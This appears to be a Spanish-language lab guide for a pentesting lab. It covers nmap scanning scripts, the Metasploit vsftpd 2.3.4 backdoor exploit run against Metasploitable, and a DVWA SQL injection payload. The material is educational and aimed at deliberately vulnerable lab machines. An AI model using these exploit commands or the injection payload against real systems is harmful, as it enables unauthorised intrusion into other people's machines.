



## Reconocimiento y Explotación desde Kali Linux

En esta sección se realizan las primeras pruebas activas desde la
máquina atacante (Kali Linux).\
El objetivo es verificar que el laboratorio funciona correctamente, que
las máquinas son accesibles y que se pueden ejecutar técnicas reales de
pentesting de forma controlada.

------------------------------------------------------------------------

# 4.1 Scripts de Reconocimiento

## Objetivo

Automatizar tareas básicas de reconocimiento desde Kali Linux para: -
Descubrir hosts activos\
- Escanear puertos\
- Identificar servicios\
- Preparar futuras fases de explotación

------------------------------------------------------------------------

## Script 1 --- Escaneo Rápido: `scan_basic.sh`

### Concepto

Este script realiza un escaneo básico con `nmap`, identificando: -
Servicios abiertos\
- Versiones básicas\
- Puertos más comunes

Además, guarda los resultados automáticamente en un archivo.

### Código

    #!/bin/bash

    echo "[+] Escaneo rápido iniciado..."
    TARGET=$1

    if [ -z "$TARGET" ]; then
        echo "Uso: ./scan_basic.sh <IP>"
        exit 1
    fi

    nmap -sV -T4 $TARGET -oN scan_basic_$TARGET.txt

    echo "[+] Escaneo completado. Archivo guardado como scan_basic_$TARGET.txt"

### Ejecución

    ./scan_basic.sh <IP_METASPLOITABLE>

---

------------------------------------------------------------------------

## Script 2 --- Enumeración Completa: `enum_ports.sh`

### Concepto

Exploración agresiva: - Todos los puertos\
- Servicios y versiones\
- Detección de OS\
- Scripts NSE

### Código

    #!/bin/bash

    echo "[+] Enumeración detallada de puertos..."
    TARGET=$1

    if [ -z "$TARGET" ]; then
        echo "Uso: ./enum_ports.sh <IP>"
        exit 1
    fi

    nmap -A -p- -T4 $TARGET -oN enum_ports_$TARGET.txt

    echo "[+] Enumeración completada. Archivo: enum_ports_$TARGET.txt"

### Ejecución

    ./enum_ports.sh <IP_METASPLOITABLE>

------------------------------------------------------------------------

# 4.2 Pruebas de Explotación Básicas

## Objetivo

Validar: - Conectividad\
- Ejecución de exploits\
- Obtención de shells remotos\
- Explotación de aplicaciones en Docker

------------------------------------------------------------------------

## Explotación 1 --- vsftpd 2.3.4

### Procedimiento

~~~bash
    msfconsole
    use exploit/unix/ftp/vsftpd_234_backdoor
    set RHOSTS <IP_METASPLOITABLE>
    run
~~~

------------------------------------------------------------------------

## Explotación 3 --- DVWA SQL Injection
En la parte luego de logearse he iniciar de acuerdo a la documentación 

    1' OR '1'='1

.jpeg)
------------------------------------------------------------------------